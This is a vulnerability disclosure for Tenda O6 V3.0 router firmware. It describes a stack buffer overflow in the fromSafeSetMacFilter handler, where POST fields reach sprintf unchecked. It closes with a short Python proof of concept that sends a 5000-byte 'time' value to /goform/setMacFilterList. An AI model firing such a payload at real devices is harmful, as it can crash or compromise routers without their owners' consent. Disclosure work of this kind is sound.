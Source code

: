 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3861.html

## Affected version

O6 V3.0 V1.0.0.7(2054)

## Vulnerability details

In the O6 V3.0 V1.0.0.7(2054) firmware has a stack overflow vulnerability in the `fromSafeSetMacFilter` function. The `v2, format, v5` variable receives the `remark, type, time` parameter from a POST request. However, since the user can control the input of `remark, type, time`, the statement `sprintf(v33, "%d;%s;%d;%s;%s", v8 + 1, v2, v7 + 2, format, (const char *)v76);` can cause a buffer overflow. The user-provided  `remark, type, time` can exceed the capacity of the `v33` array, triggering this security vulnerability.

![image-20240801133046551](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801133046551.png)

![image-20240801133019609](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801133019609.png)

![image-20240801133035717](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801133035717.png)

![image-20240801133209667](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801133209667.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setMacFilterList"
payload = b"a"*5000

data = {"action": "add", "time": payload}
response = requests.post(url, data=data)
```
